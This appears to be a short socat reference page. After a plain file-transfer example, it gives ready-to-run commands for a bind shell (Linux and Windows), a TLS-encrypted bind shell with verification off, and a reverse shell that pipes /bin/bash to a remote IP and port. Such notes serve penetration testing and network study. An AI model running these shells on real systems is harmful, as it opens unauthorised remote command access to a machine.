 ```yaml
---
title: "socat"
linkTitle: "socat"
date: 2017-01-05
---
```


### Transfer

Alice -> Bob

Alice:

```bash
socat TCP4-LISTEN:443,fork file:journald.log
```

* fork: After establishing a connection, handles its channel in a child process
and keeps the parent process attempting to produce more connections.

Bob:

```bash
socat -d -d TCP4:192.168.1.1:443 file:journald.log,create
```

### Bind shell

Alice -> Bob

Alice:

```bash
socat - TCP4:192.168.1.1:1234
```

Bob:

```bash
socat -d -d TCP4-LISTEN:1234 EXEC:/bin/bash
```

For windows:

```bash
socat -d -d TCP4-LISTEN:1234 EXEC:'cmd.exe',pipes
```

### Encrypted bind shell

Alice -> Bob -> Alice

Alice:

```bash
$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
$ cat bind_shell.key bind_shell.crt > bind_shell.pem
$ socat OPENSSL-LISTEN:192.168.1.1:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

Bob:

```bash
socat - OPENSSL:192.168.1.1:443,verify=0
```

### Reverse shell

Alice -> Bob -> Alice

Alice:

```bash
socat TCP4:192.168.1.1:1234 EXEC:/bin/bash
```

Bob:

```bash
socat - TCP4-LISTEN:1234 STDOUT
```
